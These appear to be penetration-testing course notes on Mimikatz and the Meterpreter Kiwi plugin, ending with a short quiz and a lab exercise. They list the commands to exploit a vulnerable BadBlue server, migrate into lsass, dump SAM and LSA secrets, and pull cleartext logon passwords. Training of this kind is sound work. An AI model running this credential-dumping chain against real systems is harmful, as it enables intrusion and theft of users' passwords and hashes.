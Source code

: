 
#### Mimikatz

- Post exploitation tool for extraction of credentials
- Security Account Manager


Setup msfconsole
```
service postgresql start && msfconsole
workspace -a mimikatz
setg RHOST <target_ip>
setg LHOST <loca_ip>
setg RHOSTs <target_ip>
```

Scan and enumerate target
```
db_nmap -sV <target_ip>
```

Setup module for exploitation
```
search badblue
use exploit/windows/http/badblue_passthru
options
set target <bad_blue_version>
exploit
```

Migrate to x64 process
```
pgrep lsass
migrate <lsass_id>
```

Load kiwi and dump creds 
```
load kiwi
creds_all -> dump all creds
lsa_dump_sam
lsa_dump_secrets
```

Upload mimikatz program to remote host
```
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Check privileges with mimikatz
```
mimikatz.exe
privilege::debug
```

Dump logon passwords in clear text
```
sekurlsa::logonpasswords
```
## Quiz 

Which one of the following meterpreter Kiwi commands can be used to dump the contents of the SAM database?

lsa_dump_sam
## Lab

A Kali GUI machine and a target machine running vulnerable application are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the machine using the appropriate Metasploit module. Then, use the meterpreter Kiwi plugin to extract sensitive data from the target's machine.

Objective: Exploit the application and find all the flags.

- Find Administrator and Student users NTLM hash.
- Dump LSA secrets to find Syskey

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1


```

```